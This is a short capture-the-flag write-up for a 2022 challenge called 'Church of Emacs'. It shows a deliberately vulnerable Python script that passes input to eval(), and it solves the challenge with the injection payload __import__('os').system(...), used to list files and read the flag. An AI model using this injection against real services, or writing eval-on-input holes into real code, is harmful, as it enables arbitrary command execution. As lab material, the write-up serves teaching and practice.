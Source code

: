 Title: Church of Emacs

Description:

```
halp hoaw 2 eksit vim :<

nc alpha.8059blank.ml 7001
nc beta.8059blank.ml 7001

Author: Lucas
```

Given hint: __import__ is a very cool builtin btw

Given file: [emacs.py](https://github.com/Coder-Here/HACK-AC-2022-CTF/blob/main/Misc/Church%20of%20Emacs/emacs.py "emacs.py")

It suggests that we use [\_\_import__ exploit using eval() function vulnerability](https://stackoverflow.com/questions/59519289/python-running-reverse-shell-inside-eval) which can be done. 

emacs.py:

```
print("Hello! Hope you are a vim fan!")

exits = ["q", "q!", "x", "wq", "wq!", "x!"]

while True:
    print(':', end='')
    inp = input()
    if inp in exits:
        print("This isn't vim sadly...")
        continue
    try:
        print(eval(f'exit({inp})'))
    except Exception as e:
        print(e)
```

We can use the exploit to run shell commands because of the vulnerable eval() function.

Let's open the application using netcat first. 

![image](https://user-images.githubusercontent.com/63996033/197686789-cce64da2-4a9e-4651-b443-ea0afc76759a.png)

We see that we can run shell commands using this technique.

![image](https://user-images.githubusercontent.com/63996033/197686873-19d60f7d-8591-43ad-90cf-17b260c652dd.png)

```__import__('os').system('<shell command>')```

The first shell command we can do is 'ls' to list all files in the directory, then 'cat' open the flag file.

![image](https://user-images.githubusercontent.com/63996033/197687098-bf8cc952-65e1-4f6a-b41e-706ddb75a84a.png)

Flag: ACSI{vivivi}

